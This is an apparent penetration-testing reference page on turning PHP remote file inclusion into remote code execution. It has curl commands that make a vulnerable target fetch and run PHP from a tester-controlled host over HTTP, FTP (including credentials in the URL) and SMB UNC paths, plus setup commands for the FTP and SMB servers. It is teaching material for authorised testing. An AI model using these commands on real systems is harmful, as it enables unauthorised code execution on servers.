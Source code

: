 ```yaml
---
authors: ShutdownRepo
---
```


# RFI to RCE

## via HTTP

The tester can host an arbitrary PHP code and access it through the HTTP protocol

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

## via FTP

The tester can also host his arbitrary PHP code and access it through the FTP protocol. He can use the python library pyftpdlib to start a FTP server.

```bash
# Start FTP server
sudo python3 -m pyftpdlib -p 21                                                                                                                                            1 ↵ alex@ubuntu
[I 2022-07-11 00:04:26] concurrency model: async
[I 2022-07-11 00:04:26] masquerade (NAT) address: None
[I 2022-07-11 00:04:26] passive ports: None
[I 2022-07-11 00:04:26] >>> starting FTP server on 0.0.0.0:21, pid=176948 <<<

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=ftp://tester.server/phpinfo.php'
```

> [!TIP]
> PHP uses the anonymous credentials to authenticate to the FTP server. If the tester needs to use custom credentials, he can authenticate as follows :
> 
> `curl '$URL/?parameter=ftp://user:pass@tester.server/phpinfo.php'`

## via SMB

Sometimes, the vulnerable web application is hosted on a Windows Server, meaning the attacker could log into a SMB Server to store the arbitrary PHP code.

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) (Python) script can be used on the attacker-controlled machine to create a SMB Server.

```
sudo python3 smbserver.py -smb2support share $(pwd) 130 ↵ alex@ubuntu
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

The PHP script can then be included by using a [UNC](https://en.wikipedia.org/wiki/Universal_Naming_Convention) Path.

```bash
curl '$URL/?parameter=\\tester.server\phpinfo.php'
```
